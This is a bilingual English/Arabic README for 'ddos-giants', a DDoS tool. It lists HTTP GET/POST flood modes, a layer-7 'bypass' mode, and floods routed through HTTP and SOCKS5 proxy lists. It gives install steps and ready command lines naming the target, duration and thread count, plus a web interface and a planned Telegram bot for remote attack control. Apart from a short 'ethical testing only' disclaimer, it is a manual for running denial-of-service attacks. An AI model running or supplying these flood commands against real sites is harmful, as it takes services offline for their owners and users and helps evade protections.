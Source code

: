 # 🚀 ddos-giants | العملاق للاختبار الأمني DDoS

**ddos-giants** is a professional open-source tool for Distributed Denial of Service (DDoS) attacks for **educational and ethical testing** purposes only.  
تم تطوير الأداة بالكامل بواسطة [خالد](https://github.com/nnnzjn-1)، وتتميز بالذكاء، وسهولة التحكم، ودعم الهجمات الحديثة.

---
## Table of Contents | محتويات

- [About | عن المشروع](#about--عن-المشروع)  
- [Features | المميزات](#features--المميزات)  
- [Installation | التثبيت](#installation--التثبيت)  
- [Usage | طريقة الاستخدام](#usage--طريقة-الاستخدام)  
- [Attack Modes | أوضاع الهجوم](#attack-modes--أوضاع-الهجوم)  
- [Examples | أمثلة](#examples--أمثلة)  
- [Configuration | الإعدادات](#configuration--الإعدادات)  
- [Code Structure & Development | هيكلة الكود والتطوير](#code-structure--development--هيكلة-الكود-والتطوير)  
- [Testing | الاختبارات](#testing--الاختبارات)    
- [Disclaimer | إخلاء المسؤولية](#disclaimer--إخلاء-المسؤولية)  
- [Author | المؤلف](#author--المؤلف) 

---

## Features | المميزات

- Multiple attack modes (GET, POST, bypass, proxy-based)  
- دعم أوضاع هجوم متعددة (GET، POST، تجاوز الحماية، باستخدام البروكسي)  
- Proxy support (HTTP and SOCKS5)  
- دعم البروكسيات HTTP و SOCKS5  
- Custom POST data support  
- إمكانية إرسال بيانات POST مخصصة  
- High concurrency with efficient async HTTP requests  
- تعدد الخيوط بكفاءة باستخدام الشبكات غير المتزامنة  
- User-friendly CLI interface  
- واجهة سطر أوامر سهلة الاستخدام  
- Modular code design for easy maintenance  
- تصميم برمجي مرن وسهل الصيانة  
- Basic unit tests to ensure stability  
- اختبارات وحدة أساسية لضمان الاستقرار  



--- 

## Installation | التثبيت

Requirements:

- Python 3.8 or newer  
- مكتبة `aiohttp` و `async-timeout`

Install dependencies:

```bash
pip install -r requirements.txt

---

## 🛠️ Installation | التثبيت

```bash
# Update system & install essentials | تحديث النظام
apt update && apt install -y git python3 python3-pip

# Clone the project | استنساخ المشروع
git clone https://github.com/nnnzjn-1/ddos-giants.git
cd ddos-giants

# Install Python libraries | تثبيت المكتبات
pip3 install -r requirements.txt
```

---

## Usage | طريقة التشغيل

### Available Attack Modes | أوضاع الهجوم المتاحة:

| Mode        | Description (EN)                       | الوصف (عربي)                             |
|-------------|--------------------------------------|-----------------------------------------|
| GET         | Simple GET attack without proxy      | هجوم GET بسيط بدون استخدام بروكسي      |
| POST        | POST attack without proxy with data  | هجوم POST بدون بروكسي مع بيانات         |
| bypass      | Layer 7 bypass attack with proxies   | هجوم تجاوز طبقة 7 باستخدام البروكسي     |
| proxy_get   | GET attack with proxies               | هجوم GET باستخدام البروكسيات             |
| proxy_post  | POST attack with proxies and data    | هجوم POST باستخدام البروكسيات مع بيانات  |

---

### Usage Examples | أمثلة التشغيل:

```bash
# Simple GET attack for 60 seconds with 100 threads
python3 core/runner.py GET https://example.com 60 100

# POST attack for 60 seconds with 100 threads and POST data
python3 core/runner.py POST https://example.com 60 100 "" "param1=value1&param2=value2"

# Bypass attack with 60 seconds, 100 threads, using SOCKS5 proxies file
python3 core/runner.py bypass https://example.com 60 100 proxy/socks5.txt

# GET attack with 60 seconds, 100 threads, using HTTP proxies file
python3 core/runner.py proxy_get https://example.com 60 100 proxy/http.txt

# POST attack with 60 seconds, 100 threads, using HTTP proxies file and POST data
python3 core/runner.py proxy_post https://example.com 60 100 proxy/http.txt "param1=value1&param2=value2"
```

----
## Configuration | الإعدادات
---
	•	Proxy files: One proxy per line in format ip:port
	•	ملفات البروكسي: بروكسي واحد في كل سطر بالشكل ip:port
	•	POST data: Must be URL-encoded, e.g., key=value&key2=value2
	•	بيانات POST: مشفرة بصيغة URL مثل key=value&key2=value2
----

## Code Structure & Development | هيكلة الكود والتطوير
---
```ddos-giants/
│
├── core/                # Attack core logic files
│   ├── runner.py        # Main entry point
│   ├── attacks.py       # Attack methods implementation
│   └── utils.py         # Utility functions (e.g., proxy loader)
│
├── proxy/               # Proxy lists directory
│   ├── socks5.txt
│   └── http.txt
│
├── tests/                # Unit tests directory
│   └── test_runner.py
│
├── README.md              # This documentation file
├── requirements.txt       # Dependencies list
└── .gitignore
```
---
## Development notes | ملاحظات تطويرية
---
	•	Use type hints to improve readability and allow static checking (mypy).
	•	استخدم نوع البيانات (type hints) لتحسين وضوح الكود.
	•	Add detailed docstrings to all functions and classes.
	•	أضف تعليقات docstrings لكل دالة وكلاس.
	•	Implement logging module instead of print for better debugging control.
	•	استبدل print بـ logging لتسهيل تتبع الأخطاء.
	•	Consider splitting configuration values (e.g., headers, user agents) into separate config files.
	•	افصل إعدادات مثل الهيدرز وقوائم المستخدمين في ملفات مستقلة.

--- 
## Testing | الاختبارات
-
Basic unit tests are included in the tests/ folder to verify:

 •	URL validation
 •	Proxy loading functionality
 •	Attack mode execution without crashing

Running tests | تشغيل الاختبارات
 •python3 -m unittest discover tests

---
 ## 🌍 Web Interface  | واجهة الويب 

```bash
uvicorn web.app:app --host 0.0.0.0 --port 8000 --reload
```
Then open:  
ثم افتح: `http://localhost:8000`

---

## 🤖 Telegram Bot (soon) | بوت تيليجرام (قريبًا)

Remotely control and monitor attacks via Telegram.  
تحكم عن بعد واستلم الإشعارات عبر تيليجرام.

---

Notes | ملاحظات:
-
	•	For proxy modes (bypass, proxy_get, proxy_post), you must provide a proxy file containing proxies list.
	•	في أوضاع البروكسي، يجب توفير ملف يحتوي على قائمة البروكسيات.
	•	POST data should be URL encoded (e.g. param1=value1&param2=value2).
	•	بيانات POST يجب أن تكون مشفرة بصيغة URL.


## ⚠️ Legal Warning | ⚠️ تحذير قانوني

This tool is for **ethical testing and education only** with explicit permission from the system owner.  
هذه الأداة لأغراض اختبارية وتعليمية شرعية فقط، ويُمنع استخدامها ضد أي جهة دون إذن.

---

## 🧾 License | الترخيص

MIT License  
Developed by **Khaled** – [GitHub: nnnzjn-1](https://github.com/nnnzjn-1)
